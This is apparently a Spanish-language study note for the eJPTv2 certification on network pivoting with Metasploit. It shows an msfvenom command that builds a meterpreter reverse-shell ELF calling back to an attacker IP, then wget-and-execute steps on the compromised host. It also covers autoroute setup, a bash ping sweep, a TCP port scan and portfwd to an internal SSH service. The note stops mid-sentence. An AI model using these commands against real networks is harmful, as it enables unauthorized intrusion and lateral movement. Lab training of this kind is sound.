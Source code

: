 Tendremos primero que conseguir una sesión de Meterpreter, para ello crearemos el siguiente Payload con msfvenom

````
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.138 LPORT=5555 -f elf -b '\x00\x0a\x0d' -o virus2
````

Posterior a esto tendremos que usar msfconsole para conectarnos al meterpreter.

![[2.1 PIVOTING.jpg]]

Tambien, dentro de la máquina comprometida tendremos que recibir el archivo mediante wget como se explico en [[eJPTv2/CONCEPTOS BÁSICOS/2. Compartir archivos con servidor http]] y darle permisos mediante `chomd +x nombre_archivo` y ejecutarlo con `./nombre_archivo`

NO PODREMOS HACER PIVOTING SIN SER ROOT.

Para conseguirlo hay que escalar privilegios con [[eJPTv2/6. ESCALADA DE PRIVILEGIOS/1. SUDO -l]].

RECOMENDABLE USAR `script /dev/null -c bash`

Una vez teniendo meterpreter y el usuario root.

Empezaremos por el comando `ipconfig` pasa saber las interfaces de red que tiene. Pasaremos la sesión de Meterpreter a segundo plano (CNTRL + Z)

Usaremos el siguiente modulo para enrutar el tráfico:

`use /multi/manage/autorute`

Indicando únicamente la SESSION.

Montaremos un pequeño script en bash para saber las máquinas que están dentro de la red y lo lanzaremos en el meterpreter. `session -i NUMERO_SESION`

````
#!/bin/bash

for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 10.10.10.$i está activo"
        fi
done
````

Posterior a saber la IP tendremos que hacer un escaneo de puertos. Suspenderemos nuevamente la sesion de meterpreter (CNTRL + Z).

Buscaremos el módulo `use scanner/portscan/tcp`

![[2.2. PIVOTING.png]]

Pondremos el RHOSTS con la IP de la máquina objetivo. Haremos lo mismo que con el anterior si tuviéramos que ampliar el rango de puertos.

Para traernos los puertos tendremos que volver a entrar al meterpreter.

El comando a usar el siguiente:

`portfwd add -l PUERTO_DE_LA_MÁQUINA -p PUERTO_QUE_NOS_QUEREMOS_TRAER -r IP_DE_LA_MÁQUINA_FINAL`

Si ahora desde la kali hacemos un `ssh USER@127.0.0.1 -P PUERTO_INDICADO_ANTERIORMENTE`

Podremos acceder al usuario 